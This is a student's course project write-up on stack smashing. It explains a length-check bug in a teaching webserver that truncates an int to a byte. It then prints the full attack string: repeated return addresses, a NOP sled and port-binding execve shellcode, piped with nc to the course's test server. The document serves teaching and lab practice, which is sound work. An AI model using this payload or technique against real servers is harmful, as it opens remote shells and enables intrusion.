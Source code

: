 # Smashing the Stack

In this project, we exploited a vulnerability in a remote webserver and successfully compromised it; the vulnerability we found was a class called **buffer overflows**. Essentially, a buffer overflow occurs when a buffer, such as an array, is filled with more bytes than it had allocated. When an *out of bounds* check doesn't happen, we can overwrite saved registers on the stack such as the return address. By therefore filling the buffer with executable instructions (shellcode) and overwriting the return address to the beginning of our shellcode, we can spawn a new shell that attacks the server.

### Project specification
https://lpc.cs.duke.edu/compsci310/projects/p2.php

### The shellcode
The shellcode basically spawns a new shell (portbinds it by calling ```execve```)
https://users.cs.duke.edu/~chase/cps310/shellcode.html

### The vulnerability
The vulnerability was in the ```check_filename_length``` call in the ```handle``` function, where the length, which was of type ```int``` was sent to a method with argument type ```byte```, and so only the last 8 bits of the string are considered. As long as the length has a binary value where the last 8 bits are less than 100 -- or in more precise terms, lengths which are in the range 256n to 256n + 100 will pass the test. We used a string of length 828 which passes the test.


### The attack
The next challenge was to attack the server. We created an attack string composed of multiple copies of the return address, a no-op sled, and then the shellcode. We were hoping that when when our return address overwrites the pre-existing return address, it will point to the no-op sled, which would then slide down right into our shellcode to spawn the shell. The reason we repeat the address is so that we can overflow the stack frame and maximize our chances of replacing the original return address. Knowing the return address was about 140 bytes, we made sure to create more than 35 copies of our return address (since each address is four bytes).

Our attack string was a GET request of length 828. We had 72 copies of our return address, for 288 bytes. The next thing that followed was 448 no-ops. And finally, the shellcode from the link above which actually spawns the shell was 92 bytes.
Our return address was ```0xbffffdb4```. It was a complete random guess because we knew the start of the stack was ```0xbfffffff```, and the return address should be close to it. Represented in shellcode, it should be ```\xb4\xfd\xff\xbf``` due to the Endianness.
Then our no-ops followed with ```0x90```, and finally the shellcode found above. This allowed us to smash the stack, ```cd``` into the directory, and edit the ```index.html``` file.

Our entire attack string is below:

```echo -e "GET /\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\xb4\xfd\xff\xbf\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x40\x89\xc3\x50\x40\x50\x89\xe1\xb0\x66\xcd\x80\x31\xd2\x52\x66\x68\x27\x56\x43\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd\x80\x40\x89\x44\x24\x04\x43\x43\xb0\x66\xcd\x80\x83\xc4\x0c\x52\x52\x43\xb0\x66\xcd\x80\x93\x89\xd1\xb0\x3f\xcd\x80\x41\x80\xf9\x03\x75\xf6\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80 HTTP" | nc 310test.cs.duke.edu 9288```

This was a great project and we learned a lot about stack smashing from reading the articles.